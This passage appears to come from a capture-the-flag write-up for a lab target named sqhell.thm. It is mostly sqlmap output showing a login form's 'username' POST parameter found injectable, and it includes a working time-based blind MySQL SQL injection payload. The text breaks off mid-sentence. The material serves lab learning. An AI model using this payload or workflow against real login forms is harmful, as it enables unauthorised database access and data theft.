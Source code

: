 ```
[22:54:27] [INFO] testing for SQL injection on POST parameter 'username'
[22:54:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:54:27] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:54:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:54:27] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:54:28] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:54:28] [INFO] testing 'Generic inline queries'
[22:54:28] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:54:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:54:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:54:39] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:55:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:55:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:55:05] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[22:55:22] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))NuAN) AND 'ofyh'='ofyh&password=admin
---
[22:55:43] [INFO] the back-end DBMS is MySQL
[22:55:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:55:43] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:55:43 /2021-06-08/
```

There’s a lot of information, the key point is:

